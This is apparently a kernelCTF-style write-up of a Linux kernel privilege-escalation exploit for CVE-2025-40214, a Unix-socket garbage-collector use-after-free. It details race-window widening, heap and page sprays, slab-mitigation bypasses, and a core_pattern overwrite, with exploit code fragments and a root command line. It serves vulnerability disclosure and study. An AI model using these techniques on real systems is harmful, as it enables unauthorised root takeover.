

# CVE-2025-40214

Exploit documentation for `CVE-2025-40214` against `mitigation-v4-6.12`.

As stated in `vulnerability.md`, the bug behind `CVE-2025-40214` causes
a UAF on `struct sk_buff` (skb) by making the Unix Sockets GC incorrectly
collect sockets that are still reachable from userspace.

## Overview

The exploit proceeds in the following stages:

0. Prerequisites: bypass KASLR via a prefetch side-channel, then spray
   physical pages with a fake `pipe_buf_operations` vtable (NPerm technique).
1. Preparation: build a GC cycle with a controlled `scc_index` spray to get the UAF on skb.
2. Race `scm_fp_dup()` against `unix_detach_fds()` to convert the skb UAF into a
   UAF on `struct file`.
3. Pivot the `struct file` UAF into a UAF on `pipe_inode_info->bufs` (pipe buffers),
   force the allocation outside the slab to bypass slab mitigations, then overwrite
   `core_pattern` for privilege escalation.

| Step | Primitive | Target Object | Spray / Reclaim |
|------|-----------|---------------|-----------------|
| 1 | `scc_index` spray | `unix_vertex` (kmalloc) | `recv()` frees vertices retaining `scc_index` from the cycle |
| 2 | skb UAF -> file UAF | `struct file` (`filp` cache) | `scm_fp_dup` vs `unix_detach_fds` race; `/dev/null` * 300 reclaim |
| 3.1 | File type pivot | `struct file` (`filp` cache) | close `/dev/null` fds + `pipe()` spray (same cache) |
| 3.2 | Out-of-slab alloc | `pipe->bufs` (10,240 B -> Order-2) | `fcntl(F_SETPIPE_SZ)` -> 256 elems -> `kmalloc_large` |
| 3.3 | pipe buffer UAF | `pipe->bufs` (Order-2 page) | `close()` one of pipe fds retaining their UAF alias + socket write (Order-2 page) |
| 3.4 | RIP control | `pipe_buf_operations->confirm` | fake vtable from Step 0 -> decrement gadget |
| 3.5 | Privilege escalation | `core_pattern` (mode 0644 -> 0643) | world-writable -> `\|/bin/dd if=/flag of=/dev/kmsg` |

## Mitigation Notes

The exploit targets `mitigation-v4-6.12`, which has the following hardening options enabled:

- `CONFIG_SLAB_VIRTUAL` — virtualizes slab addresses, preventing cross-cache attacks.
- `CONFIG_RANDOM_KMALLOC_CACHES` — randomizes which `kmalloc` cache a given call site uses.

The exploit avoids cross-cache attacks and slab allocations entirely. The key mitigation bypass is in [Step 3.2](#step-32-grow-pipe_buffers-outside-the-slab): we grow the `pipe->bufs` array to 256 elements (10,240 bytes), which is greater than `KMALLOC_MAX_CACHE_SIZE` (8,192 bytes). This forces the allocation through `kmalloc_large` -> page allocator, bypassing both `SLAB_VIRTUAL` and `CONFIG_RANDOM_KMALLOC_CACHES`.

The struct file UAF (Step 2) does not require cross-cache because the `/dev/null` -> pipe conversion (Step 3.1) replaces the freed file with a same-type `struct file` allocation. After `kfree(pipe->bufs)` the Order-2 page returns to PCP, and the next Order-2 allocation (socket write buffer) reclaims it with attacker-controlled data.

Relevant object caches:
- `unix_vertex` — allocated via `kmalloc(sizeof(*vertex), GFP_KERNEL)` (random kmalloc cache). The exploit avoids fighting this by receiving sockets from the cycle itself, so the freed vertices retain the sprayed `scc_index`.
- `struct file` — allocated from the `filp` slab cache. The `/dev/null` -> pipe conversion reuses the same cache.
- `struct sk_buff` — allocated from `skbuff_head_cache`. The exploit does not reclaim skb objects directly; instead it pivots the skb UAF into a `struct file` UAF.
- `pipe->bufs` — allocated via `kcalloc()` into `kmalloc_large` (page allocator) after growing to 256 elements.

KASLR is bypassed via the [EntryBleed](https://www.willsroot.io/2022/12/entrybleed.html) prefetch side-channel.

### Environmental Requirements

- **`RLIMIT_NOFILE` = 2000**: The exploit opens many file descriptors simultaneously (eventfds, pipes, sockets, `/dev/null` spray). The default limit of 1024 is insufficient, so the exploit raises it at startup.
- **`pin_to_cpu(0)` / `pin_to_cpu(1)`**: The GC thread and the recv thread are pinned to separate CPUs. This is required for the race: the timerfd interrupt storms must perform on the corresponding CPU to create a reliable stall in a race window, and the race timing depends on both threads running concurrently without being migrated.

### Step 0: Prerequisites

These steps are skipped in `--vuln-trigger` mode (vulnerability trigger only, no privilege escalation).

#### KASLR Bypass

We use a `prefetch` timing side-channel to bypass KASLR, based on [EntryBleed](https://www.willsroot.io/2022/12/entrybleed.html) (CVE-2022-4543). The attack measures `prefetch` instruction timing across candidate kernel base addresses (from `0xffffffff81000000` to `0xffffffffc0000000` with a `0x200000` step). We use a sliding window and a 9-trial majority vote to determine the kernel base. This is implemented in `leak_kaslr()`.

#### Physical page spray (`spray_skbs`)

After the KASLR leak, we spray nearly all available physical memory with a fake `pipe_buf_operations` structure whose `confirm` field at 0x00 offset points to `OFFSET_DEC_GADGET` — a decrement gadget. This is the `spray_skbs()` function.

The technique exploits the fact that the kernel frees physical pages from the `.init` section after boot. If userspace reclaims those physical pages, the data is accessible at the known virtual address `kbase + OFFSET_INIT_DATA_SECTION` (see [NPerm](https://github.com/google/security-research/blob/929630c38837570397e6ed757e80ba48069c64a2/pocs/linux/kernelctf/CVE-2025-38477_cos/docs/novel-techniques.md#leave-payload-next-to-kernel-resource-nperm)).

The spray drains nearly all free RAM (`freeram - 100 MB`) via `mmap(MAP_POPULATE)`, fills every page with the fake ops structure, then releases the pages back. The spray runs twice: first via `MADV_FREE`, then via `munmap`, to maximize coverage. After the spray the physical pages backing `__init_begin` contain our controlled `pipe_buf_operations` vtable. In [Step 3.3](#step-33-free-pipebufs-and-spray-fake-pipe_buffer-structures) the fake `pipe_buffer.ops` is set to this address.

### Step 1: Preparation

Visualization of this step:


https://github.com/user-attachments/assets/877d016b-311e-4530-8972-1f8c7076dabe

The internal unix GC graph is built by the following rules:

1. Each vertex is a socket that is inflight (sent to another socket via SCM_RIGHTS)
2. Each edge goes from the sent socket (predecessor) to the receiver socket (successor)
3. Each vertex has the index of a SCC that is assigned by Tarjan's algorithm

The vulnerable structure:

```c
struct unix_vertex {
	struct list_head edges;
	struct list_head entry;
	struct list_head scc_entry;
	unsigned long out_degree;
	unsigned long index;
	unsigned long scc_index; // is uninitialized
};
```

In the exploit we have these key sockets:

1. `victim_socket` - it is a socket whose receive queue will be purged by GC because of the vulnerability. We send `eventfd` files in this socket so we can peek freed files in [Step 2](#step-2-race-between-scm_fp_dup-and-unix_detach_fds). We also send dummy eventfd files via a separate socket (`slab_pin_sv`) before and after every eventfd. These "guard" files share the same slab page as the `target_file` and keep the page alive when `unix_detach_fds` drops the `target_file` refcount to zero, preventing the slab from returning the page to the page allocator.
2. `receiver_socket` - it is a socket that will help us to get the `victim_socket` back to the user space in the form of a file descriptor. It is needed because the GC checks not only `scc_index` but also that there are no references to this file from the user space at the time of the `unix_vertex_dead()` check.
3. `tail_socket` - this socket is needed to create the `receiver_vertex` when we send the `receiver_socket` to this socket. This vertex will get the sprayed `scc_index` while it is actually in another SCC.

#### Step 1.1: Initial graph setup

At this step we are building a long GC cycle. We add spray vertices to this cycle so that when we `recv()` them, their freed `unix_vertex` structures still contain the cycle's `scc_index`.

We need a long cycle here to increase the GC window from the `unix_vertex_dead(victim_vertex)` to the `skb_queue_splice_init(victim_socket.receive_queue)` so we can access the `victim` receive queue in the future. We also expand this window using a `timerfd` interrupt storm.

The cycle size is set by `NUM_DUMMY` in the exploit.

```c
#define NUM_DUMMY          100
```

Current internal state of the GC:

```js
unix_graph_grouped = false
unix_graph_maybe_cyclic = true
vertices.scc_index = 0 // because CONFIG_SLAB_VIRTUAL always zeroes pages on alloc via gfp_flags |= __GFP_ZERO;
```

#### Step 1.2: Tarjan's slow path sets `scc_index` = 2

Now we can trigger the unix GC. The `unix_graph_grouped` is false, so the GC will run Tarjan's algorithm on the graph. It will assign `scc_index` to each vertex. Since we have 1 monolithic cycle here, all vertices get the `scc_index` = 2 (`UNIX_VERTEX_INDEX_START`).

```c
enum unix_vertex_index {
	UNIX_VERTEX_INDEX_MARK1,
	UNIX_VERTEX_INDEX_MARK2,
	UNIX_VERTEX_INDEX_START,
};
```

#### Step 1.3: Free & spray

We need to spray memory with `scc_index` from our cycle, so subsequent vertex allocations get the same index by default. The best way to spray is to `recv()` sockets from the cycle. Since we are on the mitigation instance and the `unix_vertex` allocates in the kmalloc cache, this is the easiest way to reliably spray these structures without fighting against `CONFIG_RANDOM_KMALLOC_CACHES`.

```c
kmalloc(sizeof(*vertex), GFP_KERNEL);
```

`recv()` -> `unix_destroy_fpl()` -> `kfree(spray_vertex)`

#### Step 1.4: Trigger vulnerability

Next, we send the victim socket to the receiver socket so we can get it back later. We also send the receiver socket to the tail socket so the `receiver_vertex` is not NULL.

> **Note:** the `receiver_vertex` is created only after it becomes inflight, therefore we must send it to the `tail_socket`.

The `unix_vertex_dead()` checks two things for each vertex in a SCC found by Tarjan's algorithm:

```c
list_for_each_entry(edge, &vertex->edges, vertex_entry) {
		struct unix_vertex *next_vertex = unix_edge_successor(edge);

		/* The vertex's fd can be received by a non-inflight socket. */
		if (!next_vertex)
			return false;

		/* The vertex's fd can be received by an inflight socket in
		 * another SCC.
		 */
		if (next_vertex->scc_index != vertex->scc_index)
			return false;
}
```

The second check is bypassed by the vulnerability because the new `receiver_vertex` gets the sprayed `scc_index`.

The relevant state at the end of this step:

```js
unix_graph_grouped = true
unix_graph_maybe_cyclic = true
victim_vertex.scc_index = receiver_vertex.scc_index = 2 // here the GC invariant is broken
```

The `unix_graph_grouped` is updated in `unix_update_graph(successor_vertex)` when a socket is sent to another inflight socket. Since all sockets to which we sent other sockets are not-inflight at the sending time, this flag is still true.

```c
static void unix_update_graph(struct unix_vertex *vertex)
{
	/* If the receiver socket is not inflight, no cyclic
	 * reference could be formed.
	 */
	if (!vertex)
		return;

	unix_graph_maybe_cyclic = true;
	unix_graph_grouped = false;
}
```

The next round of GC will go through the fast path (`unix_walk_scc_fast`) since `unix_graph_grouped` is true from the preparation step. The `unix_vertex_dead(victim_vertex)` call will also return true since `victim_vertex.scc_index` == `receiver_vertex.scc_index` and all victim's references are inflight and no references exist in the user space.

This results in the UAF on `skb` because the GC purges the `receive_queue` of the `victim_socket` while we can receive the `victim_socket` from the `receiver_socket`.

### Step 2: Race between `scm_fp_dup()` and `unix_detach_fds()`

The GC will purge the `victim_socket`'s receive queue, freeing the skbs that carry our `eventfd` files (the `target_file`). To exploit this on the mitigation instance we convert the skb UAF into a UAF on `struct file` — this avoids fighting slab mitigations for the skb object itself.

The first race window lies between `unix_vertex_dead(victim_vertex)` (checks the vertex as a garbage candidate, must not have any user space references here) and `skb_queue_splice_init(victim_socket.receive_queue)` (destroys the receive queue so we must `recv(victim_socket)` before this).

We need to get our victim socket back via a file descriptor. This must be performed inside the GC window from above. For this we have the `receiver_socket` that contains our `victim_socket` in its receive queue. Since the general `recv()` calls `scm_stat_del()` which locks with `unix_gc_lock` we must use MSG_PEEK instead.

```c
static void scm_stat_del(struct sock *sk, struct sk_buff *skb)
{
	struct scm_fp_list *fp = UNIXCB(skb).fp;
	struct unix_sock *u = unix_sk(sk);

	if (unlikely(fp && fp->count)) {
		atomic_sub(fp->count, &u->scm_stat.nr_fds);
		unix_del_edges(fp);
	}
}

void unix_del_edges(struct scm_fp_list *fpl)
{
	struct unix_sock *receiver;
	int i = 0;

	spin_lock(&unix_gc_lock); // this will force the wait until the GC finishes and destroys our race
  // ...
}
```

For this window we have the `DEAD_TO_SPLICE_START_NS` parameter in the exploit. This parameter needs to be adjusted so the `recv(receiver_socket)` starts inside the window. It also regulates the start of the timerfd interrupt storm. With this interrupt storm we expand the GC race window from thousands of nanoseconds to around 4,000 (`TIMER_STEP_NS`) x 100 (`NUM_TRIGGER_TIMERS`) = 400 microseconds.

In this 400 microsecond window we have to finish `recv(receiver_socket)` and enter `recv(victim_socket)` (before the socket queue is spliced). We use MSG_PEEK for the victim socket as well because the race window is massively larger in this case.

The challenge is that `skb.fp` is saved and then set to NULL before `fput()` is called for each file inside the skb.

```c
static void unix_detach_fds(struct scm_cookie *scm, struct sk_buff *skb)
{
	scm->fp = UNIXCB(skb).fp;
	UNIXCB(skb).fp = NULL; // skb.fp is NULL from here

	unix_destroy_fpl(scm->fp);
	// fput is called for each file in the skb afterwards
}
```

In the case of `recv(victim_socket)` without MSG_PEEK we have to call `unix_detach_fds()` too and the race window is only a few assembler instructions wide. But when we use MSG_PEEK it goes through `unix_peek_fds()`.

The pointer is cached in `unix_peek_fds()`. Therefore we have the window between the `scm_fp_dup` function start and the `get_file()` on our `target_file` inside the `scm_fp_dup()`.

Therefore our race window is from the moment `skb.fp` is saved until `f_count` is incremented via `get_file()` in `scm_fp_dup()`.

```c
static void unix_peek_fds(struct scm_cookie *scm, struct sk_buff *skb)
{
	scm->fp = scm_fp_dup(UNIXCB(skb).fp);
}
```

The second race window is in the code below. There is a `kmemdup()` call and the loop with `get_file(fp[i])`, so we can increase the window with many files because every `get_file()` can hit a cache miss. We can send up to 253 files at once. Additionally we increase the race window using a `timerfd` interrupt storm.

The exploit sends 50 files per skb (`NUM_EVENTFDS_BATCH`), not 253. With more files, the subsequent `/dev/null` spray (Step 2 -> Step 3.1) must reclaim all of them and at 250+ files the spray of 300 `/dev/null` descriptors often fails to cover every freed file, which results in a kernel crash.

> **Note:** if the `struct file` objects are allocated sequentially in slab, the CPU prefetcher may detect the access pattern and prefetch the memory, reducing cache misses. Randomizing the order of file descriptors before sending via SCM_RIGHTS could increase the window further. But it is not needed for the exploit.

```c
struct scm_fp_list *scm_fp_dup(struct scm_fp_list *fpl)
{ // Race Window start
  struct scm_fp_list *new_fpl;
  int i;

  if (!fpl)
    return NULL;

  new_fpl = kmemdup(fpl, offsetof(struct scm_fp_list, fp[fpl->count]),
              GFP_KERNEL_ACCOUNT);
  if (new_fpl) {
     for (i = 0; i < fpl->count; i++)
       get_file(fpl->fp[i]); // Race Window end
  }
  return new_fpl;
}
```

In this race window the unix GC must finish `unix_detach_fds()`, resulting in `victim_file.f_count` dropping to zero and a `____fput` task being queued for our `victim_file`. After all the files get freed we must reclaim their memory by opening new files, so we open 300 (`NUM_DEVNULL`) `/dev/null` files and one of these allocations lands on the `target_file` memory.

This race window is expanded by the timerfd storm with the fixed delay `FP_DUP_START_NS` = 1,100 nanoseconds. It was picked empirically and can vary depending on the system setup, system load, NUMA topology, but for the mitigation instance this value works well without adjustment.

For reliable timing we give `RECV_FD_BUDGET_NS` for the first `recv(receiver_socket)` to complete. With this time buffer we can set up the timerfd storm reliably with high timing accuracy.

#### Expanding race windows with timerfd interrupt storm

Both race windows are expanded using a timerfd interrupt storm. We pick a start point in the future and set up multiple `timerfd` timers, each 4us (`TIMER_STEP_NS`) apart:

```c
static void setup_timerfd_storm(int *timers, int count,
                                struct timespec *base, long offset_ns) {
    for (int i = 0; i < count; i++) {
        struct timespec timer_ts = *base;
        timespec_add_ns(&timer_ts, offset_ns + (long)i * TIMER_STEP_NS);
        setup_timerfd_abs(timers[i], &timer_ts);
    }
}
```

The 4us step was picked empirically. By the time the kernel finishes handling one timer interrupt, the next one is already pending. This keeps the CPU busy in interrupt context for the entire duration of the storm. If the step is too small, timers coalesce into one interrupt batch and the storm ends early. If too large, there are gaps where the kernel code resumes.

Setting all timers to the same time does not work well either. The kernel handles them all in a single interrupt batch and returns quickly, so the stall is very short. Spreading them out produces a much longer and more reliable stall.

For Race Window 1: 100 (`NUM_TRIGGER_TIMERS`) timers * 4us = ~400us stall on CPU 0. This expands the window between `unix_vertex_dead()` and `skb_queue_splice_init()`.

For Race Window 2: 250 (`NUM_RECV_TIMERS`) timers * 4us = ~1000us stall on CPU 1. This expands the window between pointer load in `scm_fp_dup()` and `get_file()`. After `get_file()` increments `f_count` from 0, the `WARN_ONCE` fires and dmesg I/O blocks CPU 1 for another ~100ms. This extra delay gives the GC thread enough time to finish `unix_detach_fds()`, return to user space, wait for the RCU grace period (20ms), and reclaim the freed file memory with the `/dev/null` spray.

Overall race scheme:



### Step 3: Pivoting the UAF on struct file to privilege escalation

After we have 2 file descriptors pointing to the same struct file with `f_count` = 1, we can convert this file to any other. In this exploit we convert our `/dev/null` files from the files spray to a read end of a pipe.

#### Step 3.1: Convert `/dev/null` to pipe

We close all `/dev/null` fds so their `struct file` objects are freed back to the filp slab. After the RCU grace period we spray pipes. Pipe files allocate from the same slab cache, so one of them reclaims the `victim_file` address. We match via `fstat` inode comparison and retry if the matched fd is a write end (we need the read end). As a result, we get 2 file descriptors pointing to the same pipe read end with `f_count` = 1.

#### Step 3.2: Grow `pipe_buffers` outside the slab

Next we increase the `pipe_buffers` array size via `fcntl()`.

```c
int target_pipe_size = 250 * 4096;
fcntl(pipes[found_pipe_idx][1], F_SETPIPE_SZ, target_pipe_size);
```

The `pipe_buffers` structure consists of an array of `pipe_buffer` structures. Each `pipe_buffer` is 40 bytes in size and we intend to use `kmalloc_large` for the allocation of this array. Therefore we increase the array to 250 elements and the array will be allocated for 256 elements since it is the nearest power of 2. In this case the `pipe_buffers` will be 256 * 40 = 10,240 bytes in size and since this is more than KMALLOC_MAX_CACHE_SIZE (8,192 bytes) this array will be allocated with `kmalloc_large` that does not use SLAB so we bypass both `SLAB_VIRTUAL` and `CONFIG_RANDOM_KMALLOC_CACHES`.

```c
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};
```

```c
pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
			     GFP_KERNEL_ACCOUNT);
```

```c
#define KMALLOC_SHIFT_HIGH	(PAGE_SHIFT + 1) // 12 + 1 = 13
// ...
#define KMALLOC_MAX_CACHE_SIZE	(1UL << KMALLOC_SHIFT_HIGH) // 8,192 bytes
```

```c
void *__do_kmalloc_node(size_t size, kmem_buckets *b, gfp_t flags, int node,
			 unsigned long caller)
 {
	 struct kmem_cache *s;
	 void *ret;
 
	 if (unlikely(size > KMALLOC_MAX_CACHE_SIZE)) { // size is 10,240 bytes and this is true
		 ret = __kmalloc_large_node_noprof(size, flags, node);
		 trace_kmalloc(caller, ret, size,
				   PAGE_SIZE << get_order(size), flags, node);
		 return ret;
	 }
   // ...
}
```

#### Step 3.3: Free `pipe->bufs` and spray fake `pipe_buffer` structures

After we increased the `pipe_buffers` size we can close one of the file descriptors pointing to the `victim_file`. After we have returned from the `close()` syscall the underlying `pipe->bufs` memory is already freed (`kfree(pipe->bufs)` is called directly) and we can start the spray. The other fd still references the pipe, so `pipe->bufs` is still pointing to the freed memory.

After `kfree(pipe->bufs)` is called the Order-2 page goes straight to the PCP. Therefore the next Order-2 allocation will pick this page. For the spray we can use a write to a socket because it can use such big allocations with attacker-controlled data.

In the spray we create fake `pipe_buffer` structures.

```c
char *fake_pipe_buf = (char*)malloc(PIPE_BUF_DATA_SIZE);
memset(fake_pipe_buf, 'G', PIPE_BUF_DATA_SIZE);

uint64_t pipe_buffer_size = g_target->GetStructSize("pipe_buffer");
uint64_t pipe_buffer_ops_off = g_target->GetFieldOffset("pipe_buffer", "ops");

uint64_t init_data_section = g_kernel_base + g_target->GetSymbolOffset("init_data_section");
uint64_t dec_target = g_kernel_base + g_target->GetSymbolOffset("core_pattern_mode") - DEC_GADGET_DEREF_OFFS;
for (size_t off = 0; off < PIPE_BUF_DATA_SIZE; off += pipe_buffer_size) {
    // struct pipe_buffer.ops -> freed init data section, whose
    // physical pages are reclaimed via skb spray with controlled content
    *(uint64_t*)(fake_pipe_buf + off + pipe_buffer_ops_off) = init_data_section;
    // dec gadget: movq 0x68(%rsi), %rax; lock decl 0x280(%rax)
    // -> decrements core_pattern_mode
    *(uint64_t*)(fake_pipe_buf + off + DEC_GADGET_READ_OFFS) = dec_target;
}

// Reclaim the freed Order-2 page with attacker-controlled data via socket write buffer
int spray_sock[2];
socketpair(AF_UNIX, SOCK_STREAM, 0, spray_sock);
write(spray_sock[1], fake_pipe_buf, PIPE_BUF_DATA_SIZE);
```

The fake `pipe_buf_operations` vtable was sprayed onto physical pages in [Step 0](#physical-page-spray-spray_skbs) and is accessible via the kernel's linear mapping at `kbase + OFFSET_INIT_DATA_SECTION`. The `ops->confirm` field points to a decrement gadget: `movq 0x68(%rsi), %rax; lock decl 0x280(%rax)`.

We intend to decrement the `sysctl.core_pattern.mode` field which is 0644 by default. After the decrement it becomes 0643 and the file is world-writable. We calculate the `dec_target` accordingly.

#### Step 3.4: RIP control via `pipe_buf_confirm` gadget

After the spray we create a thread and unshare files. This ensures that `fdget()` will use the light version without `atomic_inc_not_zero()`.

Next, we call splice on the socket which internally calls `splice_to_socket()`. This function will wait for the pipe to be readable and will call `pipe->ops->confirm()` on our controlled structure. The return value will be a pointer to `dec_target` because the gadget loads it into `rax` before calling the return thunk. Therefore the syscall will break and return to the user space from here.

```c
ret = pipe_buf_confirm(pipe, buf);
if (unlikely(ret)) {
  if (ret == -ENODATA)
    ret = 0;
  break;
}
```

#### Step 3.5: Privilege escalation via `core_pattern`

After the successful splice, `sysctl.core_pattern.mode` has been decremented from 0644 to 0643, making it world-writable. We verify this by checking the permissions of `/proc/sys/kernel/core_pattern`. We then write the exploit pattern `|/bin/dd if=/flag of=/dev/kmsg` to `core_pattern`. Finally, we crash a child process and the kernel executes our pattern as root, piping the flag contents to the crashing process's stdout.

```c
{
	.procname	= "core_pattern",
	.data		= core_pattern,
	.maxlen		= CORENAME_MAX_SIZE,
	.mode		= 0644, // in .data section, so with kaslr leak it is easy to make it writable by many weak write primitives
	.proc_handler	= proc_dostring_coredump,
}
```

## Reliability

- **KASLR leak** — reliable. Uses a 9-trial majority vote with a sliding window.

- **NPerm physical page spray** — the main reliability bottleneck. The spray places a fake `pipe_buf_operations` vtable onto freed `.init` section physical pages. Between the spray and the RIP control trigger in Step 3.4, another allocation may reclaim and overwrite the page. The spray is performed twice (first via `MADV_FREE`, then via `munmap`) to maximize coverage.

- **Race (Step 2)** — each attempt is completely safe: the race runs in a `fork()`'d child, so a failed attempt is simply discarded. The `DEAD_TO_SPLICE_START_NS` is dynamically adjusted across retries to find the correct timing offset.
